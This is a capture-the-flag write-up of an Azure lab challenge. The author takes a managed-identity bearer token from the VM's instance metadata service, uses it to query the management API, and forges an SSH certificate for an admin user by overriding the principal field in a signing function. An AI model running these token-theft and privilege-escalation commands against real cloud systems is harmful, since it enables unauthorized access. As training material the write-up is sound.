

## Objective "Certificate SSHenanigans"

### Location 

Pixel Island: Rainraster Cliff's (climb up the ladders till the top and talk to the Elf)

### Task and Solution

- You need to create a signature of your public ssh-key from the Elf's Website
  at https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl

- then save the website's JSON response as your local file "elf_signed_cert.pub"

- Now you must specify both files (your private ssh-key and the signed cert) to be able to logon onto the linux vm

    $ ssh -i elf_signed_cert.pub -i ~/.ssh/id_rsa monitor@ssh-server-vm.santaworkshopgeeseislands.org 

- You will land in a shell, which is running a CLI tool, the SatTrackr tool. just press CTLR-C to exit from this tool.

### Instance Metadata Service - IMDS

Once we have a shell on this Azure linux vm, we can use the IMDS to get some information. The IMDS is available
via a non-routeable Webservice and can be used only from within the Azure services.

At first i used the IMDS to get some intel on our VM about the [subscriptionId and resource-groups](https://learn.microsoft.com/en-us/azure/virtual-machines/instance-metadata-service?tabs=linux)

$ curl -s -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/instance?api-version=2021-02-01" | jq | grep subscriptions
    
"resourceId": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Compute/virtualMachines/ssh-server-vm",

### Bearer Token 

The Bearer Token is a means of authorisation for using the REST API.

I extracted the bearer token from the [metadata service](https://www.netspi.com/blog/technical/cloud-penetration-testing/gathering-bearer-tokens-azure/) and stored it in an ENV variable $BEARER for future usage

$ export BEARER=$(curl -s -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" | jq .access_token | tr -d '"')

### Detour with google bard

Before storing the Bearer Token in an ENV variable, i was wondering, if it's possible to use Azure CLI and
i asked Bart on how to authenticate using a token.

Interesting enough, this does not work at all, there is no "auth-type bearer" option in the Azure CLI!  

### Source-Code Analysis

Now i used the REST Api to get information about the function_app

$ curl -X GET -H "Authorization: Bearer $BEARER" -H "Content-Type: application/json" \ 
https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web?api-version=2022-03-01 | jq .

"repoUrl": "https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa",

Among other information, this query revealed the source code repo URL for the function_app.

### SSH user mapping 

Before creating a new signed ssh cert, we need to understand the principal mapping. Let's look up the configuration

$ cat /etc/ssh/auth_principals/monitor

elf

$ cat /etc/ssh/auth_principals/alabaster

admin

### Attacking the function_app

There is a possible attack vector in that function_app, the principal of the ssh key can be overwritten.

So, POSTing a JSON data object with public key and principal resulted in a new ssh signed.pub for the user "alabaster"

$ curl -X POST "https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl" --data '{ "ssh_pub_key":"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCwKzNDrYbmS3v40Xdj8t3/cLuySFxMh1hvo1qy12sVt9atg7sJQZDvpaEQdDZVrPYreNqVrZeudkTOSdAsmWM1hwn2keWdSwB4z6ZJ3H9cv6sbpvBEQA+xmmKHGZ0CwM967z9CN7B2PRQGohYCffF2W1lWmNbKJqlThelR4IOyBj8mA2b7p8sqH18HTRANrNSr2/kShkHNV6fqecui5arfKyZ2BcH28ibpgxgMa1knKXfGfgXq9o6PQR7XFjp1A1wx0RdhrUy2F6OJl0gq853fWdSzDwkHuX56pxf82hk9f5ktSlwCLQqDm9JGtMdNXGL9YavGdeYxlxl3edJyYqU0Qr9iQf/m1wx36YeNTCKJVjTTODvB+6fVeTjKt7UKvqTSg/MJNOv8mADnm1FTg6BgXcJuxzehl41tVkYUC2BfDpeQkBK6LTaMPhB4NfYgRSxgYASzjY8ZtR9ifuSAPgCCWmYITV8jiWZ1px3lzrPSIj2o7c3UqzcKKK1bU7k0JZs= oliver", "principal":"admin" }'

The function_app then creates a new signed ssh cert for the user alabaster. Save the output in the file signed.pub

### Start a ssh session as user alabaster

Finally we can logon with our ssh key and our new signed.pub cert.

$ ssh -i signed.pub -i ~/.ssh/id_rsa alabaster@ssh-server-vm.santaworkshopgeeseislands.org

$ cat alabaster_todo.md

Geese Islands IT & Security Todo List

- [X] Sleigh GPS Upgrade: Integrate the new "Island Hopper" module into Santa's sleigh GPS. Ensure Rudolph's red nose doesn't interfere with the signal.
- [X] Reindeer Wi-Fi Antlers: Test out the new Wi-Fi boosting antler extensions on Dasher and Dancer. Perfect for those beach-side internet browsing sessions.
- [ ] Palm Tree Server Cooling: Make use of the island's natural shade. Relocate servers under palm trees for optimal cooling. Remember to watch out for falling coconuts!
- [ ] Eggnog Firewall: Upgrade the North Pole's firewall to the new EggnogOS version. Ensure it blocks any Grinch-related cyber threats effectively.
- [ ] Gingerbread Cookie Cache: Implement a gingerbread cookie caching mechanism to speed up data retrieval times. Don't let Santa eat the cache!
- [ ] Toy Workshop VPN: Establish a secure VPN tunnel back to the main toy workshop so the elves can securely access to the toy blueprints.
- [ ] Festive 2FA: Roll out the new two-factor authentication system where the second factor is singing a Christmas carol. Jingle Bells is said to be the most secure.

